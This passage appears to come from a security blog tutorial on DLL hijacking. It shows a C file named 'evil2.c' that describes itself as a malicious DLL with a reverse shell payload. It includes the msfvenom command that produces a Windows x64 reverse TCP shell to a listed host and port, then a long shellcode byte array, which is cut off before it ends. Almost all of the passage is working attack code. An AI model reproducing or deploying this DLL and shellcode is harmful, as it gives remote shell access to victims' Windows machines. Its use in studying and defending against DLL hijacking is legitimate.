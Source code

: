 ![msfvenom shellcode](/assets/images/13/2021-10-13_08-05.png){:class="img-responsive"}    

Update our malicious DLL with new one:           
```cpp
/*
evil2.c - malicious DLL with reverse shell payload
DLL hijacking with exported functions example
author: @cocomelonc
*/
#include <windows.h>

// msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.28 LPORT=4444 EXITFUNC=thread -f c
unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x01\x1c\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
```